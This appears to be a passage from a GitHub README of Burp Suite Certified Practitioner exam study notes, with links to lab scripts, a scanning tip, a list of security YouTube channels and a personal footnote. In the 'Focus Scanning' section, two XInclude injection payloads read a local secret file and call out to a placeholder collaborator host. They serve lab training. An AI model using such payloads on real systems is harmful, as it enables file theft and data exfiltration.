[Python Script to ***identify*** possible vulnerabilities in headers, cookies or the response body](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/python/identify)  

[Lab Automated Python Scripts](python/README.md)  

[Automate the solving of the labs using python scripts](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/python)  

## Focus Scanning  

>Due to the tight time limit during engagements or exam, [scan defined insertion points](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing) for specific requests.  

  

>Scanner detected **XML injection** vulnerability on storeId parameter and this lead to reading the secret Carlos file.  

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>
```  

>Out of band XInclude request, need hosted DTD to read local file.  

```xml
<hqt xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://COLLABORATOR.NET/foo"/></hqt>
```  

[PortSwigger Lab: Discovering vulnerabilities quickly with targeted scanning](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-discovering-vulnerabilities-quickly-with-targeted-scanning)  
  
## Approach  

>When stuck in BSCP exam, reference the below [Micah van Deusen blog tip 5 table of category to stages](https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/) for ways to progress through the stages.  

  
  
>The image below is my view of possible vulnerabilities ***identified*** and exploitation to reach the next BSCP exam stage and progress through the exam challenges.  

  
  
## YouTube Training Playlist 
  
[My YouTube BSCP Study Playlist](https://youtube.com/playlist?list=PLsDxQTEdg_YkVMP6PybE7I-hAdhR7adem)  

Youtube Information Security content creators channels:  

1. [Rana Khalil](https://www.youtube.com/@RanaKhalil101/videos)  
2. [David Bombal](https://www.youtube.com/@davidbombal/videos)  
3. [intigriti](https://www.youtube.com/@intigriti/videos)  
4. [Seven Seas Security](https://www.youtube.com/@7SeasSecurity/videos)  
5. [z3nsh3ll](https://www.youtube.com/@z3nsh3ll/videos)  
6. [The Cyber Mentor](https://www.youtube.com/@TCMSecurityAcademy/videos)  
7. [Tib3rius](https://www.youtube.com/@Tib3rius/videos)  
8. [John Hammond](https://www.youtube.com/@_JohnHammond/videos)  
9. [TraceTheCode](https://www.youtube.com/@TraceTheCode/videos)  
10. [Sabyasachi Paul](https://www.youtube.com/@h0tPlug1n/videos)  
11. [bmdyy](https://www.youtube.com/@bmdyy/videos)  
12. [CyberSecurityTV](https://www.youtube.com/@CyberSecurityTV/videos)  
13. [nu11 security](https://www.youtube.com/@Nul1Secur1ty/videos)  
14. [PortSwigger](https://www.youtube.com/@PortSwiggerTV/videos)  
15. [IppSec](https://www.youtube.com/@ippsec/videos)  
16. [TJCHacking](https://www.youtube.com/@tjchacking/videos)  
17. [LiveUnderflow](https://www.youtube.com/@LiveUnderflow/videos)  
18. [JSONSEC](https://www.youtube.com/@JSONSEC/videos)  
19. [thehackerish](https://www.youtube.com/@thehackerish/videos)  
20. [Daniel Redfern](https://www.youtube.com/@danielredfern9827/videos)  
  
## Footnote  

>My experience so far taking the PortSwigger exam, it is designed to be challenging, it is not straight forward vulnerabilities, twisted challenges, mixed academy labs into single stage and even rabbit holes.  
>**Perseverance:** Persistence in doing something despite difficulty or delay in achieving success.  
>**OSCP** certification taught me to **#TryHarder** and gave me the foundation penetration testing skills.  
>I believe eventually I will pass the **BSCP** exam and it has already given me the next level of web application security analyst knowledge.  
  
## Support  

[If you find the content valuable for Bug Bounty, Penetration Testing or Burp Exam studies, I will appreciate sponsoring me 'coffee' funds to pay for my next exam](https://www.buymeacoffee.com/botesjuan)  
